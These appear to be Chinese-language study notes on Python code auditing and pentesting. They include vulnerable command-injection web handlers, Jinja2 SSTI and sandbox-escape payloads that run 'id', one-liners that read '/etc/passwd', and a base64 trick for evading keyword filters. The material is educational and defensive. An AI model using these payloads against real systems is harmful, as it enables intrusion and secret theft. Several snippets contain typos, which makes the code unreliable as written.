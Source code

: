 # Python代码审计

## OS命令注入

- 与OS命令注入攻击相关的模块：`eval()`、`os.system()`、`os.popen*`、`subprocess.popenos.spawn*`、`commands.*`、`popen2.*`。

  - 下面是一个用Python中Django写的，可以利用eval命令注入的简单Python Web服务的Demo：

  ```python
  def eval_test(request):
      if request.method == 'GET':
          return render_to_response('eval.html',context_instance=RequesetContext(request))
      elif request.method == 'POST':
          domain = request.POST.get('domain','')
          command = "os.popen('whois" + domain + "')"
          output = eval(command)
      return render_to_response('eval.html', {'output':output.readlines()}, context_instance=RequestContext(request))
  ```
  - OS命令注入：subprocess.call函数（shell=True时，函数会在命令前添加-c选项）。开发建议 &rarr; 使用pipes.quote()函数去过滤用户输入；尽量不要使用shell=True...

  ```python
  subprocess.call("cat " + user_input, shell=True)
  subprocess.call("cat %s"%(user_input), shell=True)
  subprocess.call("cat {0}".format(user_input), shell=True)
  ```

### 简单练习

```python
@app.route("/eval/")
def eval_test():
    ip = request.args.get('ip', '127.0.0.1')
    output = os.popen('ping -c 2' + ip).readlines()
    output = '<br>'.join(output)
    t = Template(output)
    return r.render()
```

## 服务端模板注入（SSTI）

- 发生在MVC框架的view层。

  - 模板注入：`{{9-6}}`，在括号内的内容会被当作Python模板被执行

  ```python
  @app.route("/")
  def index():
      name = request.args.get('name', 'guest')
      t = Template('Hello', name)
      return t.render()
  ```

  - 利用jinjia2语法执行命令：

  ```python
  {% for c in [].__class__.__base__.__subclass__() %}
  	{% if c.__name__ == 'catch_warnings' %}
      {% for b in c.__init__.globals__.values() %}
      	{% if b.__class__ == {}.__class__ %}
          	{% if 'eval' in b.keys() %}
              	{{ b['eval']('__import__("os").popen("id").read()') }}
              {% endif %}
          {% endif %}
      {% endfor %}
      {% endif %}
  {% endfor %}
  ```

  ```python
  [].__class__.__base__.subclasses__()[60].__init__.__globals__.values()[13]['eval']('__import__("os").popen("id").read()')
  ```

- 服务器端模板注入相当于控制了对方的view层，可以获得一切jinja2中可以获取的数据。但此时我们仍然在jinja2的沙箱中，接下来我们需要绕过沙箱。

## Python沙箱逃逸

- 沙箱一般是限制指定函数的运行，或者对指定模块的删除以及过滤

### 任意代码执行

- 一些任意代码执行以及文件读取的函数
  1. os执行系统命令：`os.system('ipconfig')`
  2. exec任意代码执行：`exec('__import__("os").system("ipconfig")')`
  3. eval任意代码执行：`eval('__import__("os").system("ipconfig")')`
  4. timeit &rarr; 本是检测本机性能的，也可以任意代码执行：`timeit.timeit("__import__('os').system('ipconfig')", number=1)`
  5. platform：`platform.popen('ipconfig').read()`
  6. subprocess：`subprocess.Popen('ipconfig', shell=True, stdout=subprocess.PIPE, stderr=subprocess)`
  7. file：`file('/etc/passwd').read()`
  8. open：`open('/etc/passwd').read()`
  9. codecs：`codecs.open('/etc/passwd').read()`

### 其他攻击方法

- *PS*：Bypass明文过滤源码

```python
import re
pattern = re.complile('(os|commands|subprocess|sys)')
while True:
    code = raw_input('')
    match = re.search(pattern, code)
    if match:
        print("forbidden module import detected.")
    else:
        print("Succ!")
```

- base64编码方式逃逸（只适用于Python2）。例子：

```python
__buildins__.__dict__['X19pbXBvcnRfXw=='.decode('base64')]('b3M='.decode('base64'))
# 等价于 __buildins__.__dict__['__import__'](os)
```

- 格式化字符串问题。

  1. 在以下代码中，如果用户输入`%(password)s` 就可以获得用户的真实密码了。

  ```python
  userdata = {"user":"jdoe", "password":"secrect"}
  passwd = raw_input("Password:")
  
  if passwd != userdata["password"]:
      print("Password "+ passwd + " is wrong for user %(user)s")	%userdata
  ```

  2. 在以下代码中可以通过`{event.__init__.__globals__[CONFIG][SECRET_KEY]}` 就可以泄露敏感信息。

  ```python
  CONFIG = {
      'SECRET_KEY': 'super secret key'
  }
  
  class Event(object):
      def __init__(self, id, level, message):
          self.id = id
          self.level = level
          self.message = message
          
  def format_event(format_string, event):
      return format_string.format(event=event)
  ```

### 使用del过滤防御

```python
del __builtins__.__dict__['__import__']
del __builtins__.__dict__['eval']
del __builtins__.__dict__['execfile']
del __builtins__.__dict__['input']
# 因为可以绕过del过滤：reload(__buildtins__)，解决办法：
del __builtins__.__dict__['reload']
```
## 反序列化

- `pickle.dump(obj, file[,protocol])` &rarr; 序列化对象，并将结果数据写入到文件对象中（protocol是序列化模式，默认值为0以文本的形式序列化）

- `pickle.load(file)` &rarr; 反序列化对象，将文件中的数据解析成为一个Python对象。
- pickle的典型应用场景：
  1. 通常在解析认证token、session的时候；
  2. 可能将对象Pickle后存储成磁盘文件；
  3. 可能将对象Pickle后在网络中传输；
  4. 可能参数传递给程序，比如一个sqlmap代码执行漏洞。

# 内网渗透

- 预交互、情报搜集、威胁建模、脆弱点分析、漏洞利用、后漏洞利用、撰写报告

## 扫描网络

- 被动信息扫描 &rarr; 开源情报（OSINT）
  - 信息收集框架：Recon-ng、Discover、SpiderFoot、Gitrob-Github
- 端口扫描：Nmap、Zmap、Masccan
- 漏洞扫描：Cobalstrike、Tenable Nessus、Rapid7 Nexpose、OpenVas、Metasploit、Nmap scripts、巡风（偏内网资产审计）
- 漏洞利用：metasploit、meterpreter
- 添加路由：route add/remove subnet_addr

## 域渗透

- 工作组、家庭组
- *P.S.*：信息安全四大顶会，RSAP
